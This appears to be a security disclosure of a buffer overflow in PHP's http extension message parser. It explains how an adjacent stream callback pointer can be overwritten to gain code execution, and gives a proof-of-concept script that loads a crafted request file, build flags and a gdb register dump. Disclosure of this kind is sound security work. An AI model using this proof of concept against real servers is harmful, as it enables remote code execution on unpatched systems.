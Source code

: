 A `php_stream_ops` structure is stored in memory adjacent to the `state->buffer`. This struct holds valid callback function pointers for stdio-like functions (see `php_streams.h:118`). During my tests it was possible to modify one of these function pointers, get it called and execute absolutely unrelated instructions within the php binary.
**Thus I believe it's possible to use the described flaw to execute arbitrary code.**


# Proof of Concept

PHP test script:

```php
/*
        http_message_parse.php
        poc.req:
        http://hlt99.blinkenshell.org/php/poc.req
*/
<?php
 $http_msg = new http\Message(file_get_contents("poc.req"), false);
?>
```

PHP build configuration:

```bash
./configure --enable-mysqlnd --enable-soap --with-openssl --with-sqlite3 --enable-raphf --enable-propro --with-http --with-zlib-dir --enable-zip --enable-intl && make
```

Program state before buffer overflow:

    $ gdb ./sapi/cli/php
    gdb> b streams.c:467
    gdb> r http_message_parse.php
    [...]
    RAX: 0x10031c0 --> 0x794560 (<php_stdiop_write>)
            ^-- !! original callback function pointer
    RBX: 0x7ffff1870300
    RCX: 0x1 
    RDX: 0x7ffff1871078 
    RSI: 0x1 
    RDI: 0x7ffff1870300
    RBP: 0x3 
    RSP: 0x7fffffffab30 
    RIP: 0x78f5b4 (<_php_stream_free+308>:	call   QWORD PTR [rax+0x10])
    R8 : 0x1 
    R9 : 0x0 
    R10: 0x74000 
    R11: 0x1 
    R12: 0x0 
    R13: 0x102ea40 --> 0x0 
    R14: 0x0 
    R15: 0x0
    EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    => 0x78f5b4 <_php_stream_free+308>:	call   QWORD PTR [rax+0x10]
    [------------------------------------------------------------------------------]
    0x000000000078f5b4	467			ret = stream->ops->close(stream, preserve_handle ? 0 : 1);
